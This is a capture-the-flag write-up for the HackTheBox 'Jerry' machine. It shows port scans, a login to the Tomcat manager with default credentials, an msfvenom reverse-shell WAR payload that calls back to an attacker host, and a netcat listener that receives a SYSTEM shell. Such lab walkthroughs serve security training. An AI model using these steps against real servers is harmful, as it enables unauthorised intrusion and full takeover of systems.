 ```yaml
---
description: Jerry box from HackTheBox write up.
---
```


# Jerry

## Nmap scan

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -v -p- --min-rate 1000 <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-22 16:47 EDT
Initiating Ping Scan at 16:47
Scanning <MACHINE_IP> [4 ports]
Completed Ping Scan at 16:47, 0.10s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:47
Completed Parallel DNS resolution of 1 host. at 16:47, 0.00s elapsed
Initiating SYN Stealth Scan at 16:47
Scanning <MACHINE_IP> [65535 ports]
Discovered open port 8080/tcp on <MACHINE_IP>
SYN Stealth Scan Timing: About 23.19% done; ETC: 16:49 (0:01:43 remaining)
SYN Stealth Scan Timing: About 51.21% done; ETC: 16:49 (0:00:58 remaining)
Completed SYN Stealth Scan at 16:48, 102.13s elapsed (65535 total ports)
Nmap scan report for <MACHINE_IP>
Host is up (0.052s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 102.34 seconds
           Raw packets sent: 131151 (5.771MB) | Rcvd: 80 (3.504KB)
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p8080 -sC -sV <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-22 16:52 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.053s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.60 seconds
```

Only Tomcat on port 8080 let's take a look

## Foothold

The first thing i tried was using some default Tomcat credentials to get access to the Application Manager and... `tomcat:s3cret` worked, we are in!

We can try to upload a malicious application now to get a reverse shell. To generate the payload I will use `msfvenom`:

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Jerry]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ATACKER_IP> LPORT=8080 -f war > revshell.war
Payload size: 1086 bytes
Final size of war file: 1086 bytes
```

Now we can upload the generated file to the server and deploy it. Once it is deployed, we can spin up a listener and visit the path that contain our application to get access to the machine:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [<ATACKER_IP>] from (UNKNOWN) [<MACHINE_IP>] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>

```

## Root

Well in this case this was pretty easy:

```
C:\apache-tomcat-7.0.88>whoami
nt authority\system
```

We are already `system`! So we can just get our flags under `C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt` (Remember to use double quotes when trying to read the file!).
